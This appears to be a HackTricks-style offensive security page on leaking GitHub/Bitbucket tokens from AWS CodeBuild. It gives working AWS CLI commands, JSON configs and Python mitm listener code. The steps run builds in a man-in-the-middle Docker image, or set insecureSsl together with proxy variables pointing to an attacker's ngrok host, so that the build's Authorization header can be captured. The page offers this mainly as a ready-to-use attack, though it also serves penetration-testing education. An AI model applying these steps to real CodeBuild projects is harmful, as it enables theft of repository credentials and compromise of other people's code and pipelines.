 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured that you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   - Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     - **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   - You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   - Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   - Create a **new Codebuild project** or **modify** the environment of an existing one.
   - Set the project to use the **previously generated Docker image**

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

- As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

> [!TIP]
> The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.

4. **Run the build & capture the credentials**

- You can see the token in the **Authorization** header:

  <figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Enabling this, allows to Codebuild to connect to the repository **without checking the certificate** offered by the platform.

- First you need to enumerate the current configuration with something like:

```bash
aws codebuild batch-get-projects --name <proj-name>
```

- Then, with the gathered info you can update the project setting **`insecureSsl`** to **`True`**. The following is an example of my updating a project, notice the **`insecureSsl=True`** at the end (this is the only thing you need to change from the gathered configuration).
  - Moreover, add also the env variables **http_proxy** and **https_proxy** pointing to your tcp ngrok like:

```bash
aws codebuild update-project --name <proj-name> \
    --source '{
        "type": "GITHUB",
        "location": "https://github.com/carlospolop/404checker",
        "gitCloneDepth": 1,
        "gitSubmodulesConfig": {
            "fetchSubmodules": false
        },
        "buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
        "auth": {
            "type": "CODECONNECTIONS",
            "resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
        },
        "reportBuildStatus": false,
        "insecureSsl": true
    }' \
    --environment '{
        "type": "LINUX_CONTAINER",
        "image": "aws/codebuild/standard:5.0",
        "computeType": "BUILD_GENERAL1_SMALL",
        "environmentVariables": [
            {
                "name": "http_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            },
            {
                "name": "https_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            }
        ]
    }'
```

- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

> [!TIP] > **This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

- An attacker could add the environment variables **http_proxy** and **https_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: `http://github.com/carlospolop-forks/TestActions`
- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="0.0.0.0",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Next, click on **Build the project** or start the build from command line:

```sh
aws codebuild start-build --project-name <proj-name>
```

- Finally, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.

{{#include ../../../../banners/hacktricks-training.md}}





